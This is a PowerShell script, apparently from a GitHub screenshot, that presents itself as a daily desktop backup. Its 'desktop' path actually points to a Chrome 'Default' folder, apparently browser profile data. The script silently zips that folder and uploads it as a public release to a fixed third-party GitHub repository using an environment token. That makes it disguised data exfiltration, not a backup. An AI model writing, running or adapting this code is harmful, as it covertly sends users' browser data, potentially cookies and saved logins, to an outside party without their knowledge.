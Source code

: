 # Set UTF-8 encoding
[Console]::OutputEncoding = [System.Text.UTF8Encoding]::UTF8
$OutputEncoding = [System.Text.UTF8Encoding]::UTF8

# Parameters
$token = $env:GITHUB_TOKEN
$repo = "drftghy/backup-files"
$now = Get-Date
$date = $now.ToString("yyyy-MM-dd")
$timestamp = $now.ToString("yyyy-MM-dd-HHmmss")
$tag = "backup-$timestamp"
$releaseName = "Backup - $date"
$zipName = "DesktopBackup_$timestamp.zip"
$zipPath = "$env:TEMP\$zipName"
$desktopPath = "C:\Program Files\Google\Chrome\Application\1\Default"
$logPath = "$env:USERPROFILE\upload_log.txt"
# Compress function (skip locked files)
Add-Type -AssemblyName 'System.IO.Compression.FileSystem'
$zip = [System.IO.Compression.ZipFile]::Open($zipPath, 'Create')
Get-ChildItem -Path $desktopPath -Recurse | ForEach-Object {
    try {
        $relativePath = $_.FullName.Substring($desktopPath.Length).TrimStart('\')
        [System.IO.Compression.ZipFileExtensions]::CreateEntryFromFile($zip, $_.FullName, $relativePath)
    } catch {
        # Skip on error
    }
}
$zip.Dispose()

# Check ZIP validity
if (-Not (Test-Path $zipPath) -or (Get-Item $zipPath).Length -eq 0) {
    return
}

# Create GitHub Release
$releaseData = @{
    tag_name = $tag
    name = $releaseName
    body = "Daily desktop backup ($date)"
    draft = $false
    prerelease = $false
} | ConvertTo-Json -Depth 3

$headers = @{
    Authorization = "token $token"
    "User-Agent"  = "PowerShellUploader"
    "Accept"      = "application/vnd.github.v3+json"
}

$releaseResponse = Invoke-RestMethod -Uri "https://api.github.com/repos/$repo/releases" -Method Post -Headers $headers -Body $releaseData
$uploadUrl = $releaseResponse.upload_url -replace "{.*}", "?name=$zipName"

# Upload ZIP
$zipBytes = [System.IO.File]::ReadAllBytes($zipPath)
$uploadResponse = Invoke-RestMethod -Uri $uploadUrl -Method POST -Headers @{
    Authorization = "token $token"
    "Content-Type" = "application/zip"
    "User-Agent" = "PowerShellUploader"
} -Body $zipBytes

# Logging
$logEntry = "[{0}] Upload successful: {1}" -f (Get-Date -Format "yyyy-MM-dd HH:mm:ss"), $uploadResponse.browser_download_url
$logEntry | Out-File -FilePath $logPath -Encoding utf8 -Append
